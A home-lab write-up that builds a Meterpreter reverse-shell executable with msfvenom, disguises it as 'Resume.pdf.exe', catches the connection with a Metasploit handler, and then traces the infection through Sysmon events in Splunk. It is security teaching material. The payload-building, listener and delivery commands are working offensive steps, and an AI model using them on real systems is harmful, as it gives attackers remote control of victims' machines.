# Malware Attack Simulation and Investigation using Splunk

## **Tools Used**
- Kali Linux - For attacking
- Windows - For investigation
- Splunk (on Windows)
- Sysmon (on Windows)
- `inputs.conf` for Splunk (https://www.dropbox.com/scl/fi/620i6i0o4idzrtwlqp0qp/inputs.conf?rlkey=elni2v55mpzfab72qxr5wxk3s&e=1&dl=0)
- Metasploit Framework – Listener setup and session handling
- msfvenom – Malware payload

## **Investigation**

In Kali Linux, I opened a new terminal and typed `ip a` to get the IP address of my Kali machine. I noted it as `10.0.2.5`.


In Windows (test machine), I made sure that Remote Desktop Connection is enabled (as shown below).


Then, I opened a command prompt and typed `ipconfig` to get the IP address of my Windows machine as well (`10.0.2.15`).


Now back in Kali Linux, I ran **nmap** to scan all of the ports and identify any that are open on my Windows machine.  
Command used: `nmap -A <Windows_IP> -Pn`  

As a result, I can see that port 3389 is currently open.



Now I am going to create a basic malware using **msfvenom**.  

To see all the available payloads, I typed: `msfvenom -l payloads`  


There are many payloads available to use. The one I am going to use is this one.


Now to build the malware, I used the command:  
`msfvenom -p <payload_name> lhost=<kali_ip> lport=4444 -f exe -o <file_name>.exe`  

Port 4444 is the default port for Meterpreter, and I named the file `Resume.pdf.exe`.

Once it is created, I can see it is available on my Desktop.


Now I will open a handler that will listen on the port configured in the malware. For that, I am going to open **Metasploit** using the `msfconsole` command.

Once it has opened, to use the multi-handler, I typed:  
`use exploit/multi/handler`  

Now I am inside the exploit. Then I typed `options` to see what I can configure.


It looks like it is using a generic payload, so I changed it:  
`set payload windows/x64/meterpreter/reverse_tcp`  



Now it is using the correct payload.

However, the LHOST field is empty, so I set it to my Kali machine’s IP:  
`set lhost 10.0.2.5`  



Now the exploit is configured correctly.

Finally, I typed `exploit` to start the handler. It began listening and waiting for the test machine to open the malware (`Resume.pdf.exe`) to establish a connection:



Then, I set up a quick HTTP server on my Kali machine so that the test machine could download the malware file from my Desktop.  
To do that, I used Python.

I opened a new terminal, ensured I was in the correct directory, and ran:  
`python3 -m http.server 9999`



Now that everything is set up on my Kali machine, I switched over to my Windows machine and accessed the server on port 9999.


The malware file is there, ready to download.

However, I first needed to turn off real-time protection in Windows; otherwise, it would not allow me to download the malware file on the test machine.


After that, I downloaded the malware file.


Then I opened the `.exe` file, and the handler in Kali Linux showed that a connection had been successfully established with the test machine.


I then typed `shell` to get shell access and used the following commands:
- `net user`
- `net localgroup`
- `ipconfig`

Also, in Windows Task Manager, I can see that the malware is now running.


I opened Splunk on my test machine. Inside the `endpoints` index (which I specifically created for this test), when I searched for the malware file name, I could see several events being logged.


By scrolling down, I saw that 10 event codes were generated. I used event code 1 to view only process creation events.



There were 2 results. I expanded the first result.

I can clearly see that the process **Resume.pdf.exe** (my malware) spawned **CMD.exe** with process ID `9484`:




I copied the `process_guid` and queried it.



This returned 5 hits.


I then changed the layout to display the necessary fields to better understand what happened:


Now I can see that:
- The parent file `Resume.pdf.exe` (the malware) spawned **CMD.exe**.
- This **CMD.exe** then ran the following commands:
  - `net user`
  - `net localgroup`
  - `ipconfig`

This is accurate.

From here onwards, detections can be created to generate alerts whenever similar activity occurs in the future.
